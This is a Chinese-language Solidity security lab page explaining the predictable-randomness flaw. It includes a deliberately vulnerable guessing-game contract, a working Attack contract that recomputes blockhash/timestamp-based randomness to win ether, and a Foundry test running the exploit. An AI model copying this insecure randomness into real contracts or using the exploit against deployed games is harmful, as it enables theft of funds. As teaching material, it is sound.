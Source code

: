 # 随机性 
[Randomness.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Randomness.sol)   

**名称：** 可预测的随机性漏洞  

**描述：**  
使用全局变量如区块哈希、区块编号、区块时间戳等字段是不安全的，矿工和攻击者可以控制它。    


**场景：**  
GuessTheRandomNumber合约是一款游戏，在这个游戏中，如果你能猜到从区块哈希和时间戳生成的伪随机数，你就可以赢得1个以太币。  

乍一看，似乎无法猜出正确的数字。  
但是让我们看看赢得这个游戏有多容易。  

 1. Alice部署GuessTheRandomNumber并存入1个以太币  
 2. Eve部署Attack合约  
 3. EVe调用Attack.attack()赢得了1个以太币



**发生了什么？**  
Attack合约通过简单地复制计算随机数的代码，计算出了正确的答案。  


**缓解措施：** 
不要使用blockhash和block.timestamp作为随机性的来源。  

**参考：**  
https://solidity-by-example.org/hacks/randomness/

**GuessTheRandomNumber合约：**  
```
contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Randomness.sol-vvvv  
```
// 用于测试对存在可预测随机性漏洞合约的攻击
function testRandomness() public {
    // 将地址值从以太坊虚拟机分配给“alice”和“eve”。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice获得1个以太币
    vm.deal(address(alice), 1 ether);

    // 通过Alice的地址调用prank函数
    vm.prank(alice);

    // 创建GuessTheRandomNumberContract的实例，其余额为1个以太币
    GuessTheRandomNumberContract = new GuessTheRandomNumber{value: 1 ether}();

    // Eve的攻击开始
    vm.startPrank(eve);

    // 创建Attack合约的实例
    AttackerContract = new Attack();

    // 记录AttackerContract合约的当前余额
    console.log("Before exploiting, Balance of AttackerContract:", address(AttackerContract).balance);

    // Attack合约试图猜测GuessTheRandomNumberContract的随机数。
    AttackerContract.attack(GuessTheRandomNumberContract);

    // 再次记录AttackerContract合约的余额，以确定攻击是否成功。
    console.log("Eve wins 1 Eth, Balance of AttackerContract:", address(AttackerContract).balance);

    // 记录一条消息，表示攻击已完成。
    console.log("Exploit completed");
}


// 尝试猜测GuessTheRandomNumberContract随机数的Attack合约。
contract Attack {
    // 允许此合约接收以太币的函数
    receive() external payable {}

    // 使用与GuessTheRandomNumberContract相同的逻辑计算伪随机数并使用它来猜测数字的attack函数。
    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        );

        // 使用猜测的答案调用GuessTheRandomNumber合约的guess函数。
        guessTheRandomNumber.guess(answer);
    }

    // 辅助函数，用于检查当前合约的余额。
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```  
**红框：** 猜中答案并赢得比赛  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fda3d6929-9bc8-478e-a027-cff9c2a65c0d%2FUntitled.png?table=block&id=216b1af8-21a5-4e09-a63e-e4523705c968&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
